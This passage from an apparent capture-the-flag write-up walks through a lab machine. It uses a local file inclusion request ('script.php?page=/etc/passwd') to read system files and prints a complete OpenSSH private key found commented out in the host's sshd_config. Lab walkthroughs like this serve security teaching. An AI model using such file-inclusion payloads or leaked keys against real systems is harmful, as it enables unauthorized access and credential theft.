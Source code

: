 We can't upload via the ftp connection



We add `dev.team.thm` to host and we browse the dev website.

We find a file inclusion vuln at `dev.team.thm/script.php?page=/etc/passwd` 

```
root:x:0:0:root:/root:/bin/bash
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
```



Couldn't find `ssh keys` in `/home/dale/.ssh/id_rsa` or `/home/gyles/.ssh/id_rsa` 

The ssh key was actually in `/etc/ssh/sshd_config` for some reason (commented)

```
#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
#k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS
#xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S
#0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2
#EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU
#eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v
#7n5VNH7cZBxOeB9S5dNx2zftB+CTPyJ177s+FPQ39PZvfSWIug1cOVxrGliqPVqh4S+V0v
#JWLv38uVQGDnydKck4fCHYRVLgM37gvn49AXEOnjxYcRBelmjQkqStr/qsT8zFCC0Hc7a/
#FoVEU8bmjkDiMUNsSfs1gyjIsp8yf5c8JiOBIjio9f54f8OyPK5OowY2qgLpOcbpjsT58l
#gBojNFzgUn4GlPngA3Ghn8EhdWtICPBv07SX23Ft94J8GQVYXN9LixvCaCksbQNSeMkWs4
#xKivIVPBVL6MLBhpbPra5MQWIHHlsCRVLnWIwatjW19oJSs+dr6hWXWwGtUtLKImmx4rsH
#ftzf8oLErg4ToSiIODFh+lXiXEjCKwAAAAMBAAEAAAGAGQ9nG8u3ZbTTXZPV4tekwzoijb
#esUW5UVqzUwbReU99WUjsG7V50VRqFUolh2hV1FvnHiLL7fQer5QAvGR0+QxkGLy/AjkHO
#eXC1jA4JuR2S/Ay47kUXjHMr+C0Sc/WTY47YQghUlPLHoXKWHLq/PB2tenkWN0p0fRb85R
#N1ftjJc+sMAWkJfwH+QqeBvHLp23YqJeCORxcNj3VG/4lnjrXRiyImRhUiBvRWek4o4Rxg
#Q4MUvHDPxc2OKWaIIBbjTbErxACPU3fJSy4MfJ69dwpvePtieFsFQEoJopkEMn1Gkf1Hyi
#U2lCuU7CZtIIjKLh90AT5eMVAntnGlK4H5UO1Vz9Z27ZsOy1Rt5svnhU6X6Pldn6iPgGBW
#/vS5rOqadSFUnoBrE+Cnul2cyLWyKnV+FQHD6YnAU2SXa8dDDlp204qGAJZrOKukXGIdiz
#82aDTaCV/RkdZ2YCb53IWyRw27EniWdO6NvMXG8pZQKwUI2B7wljdgm3ZB6fYNFUv5AAAA
#wQC5Tzei2ZXPj5yN7EgrQk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0q
#z+zdN4wIKHMdAg0yaJUUj9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6
#RuSnARrKjgkXT6bKyfGeIVnIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7
#/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----
```

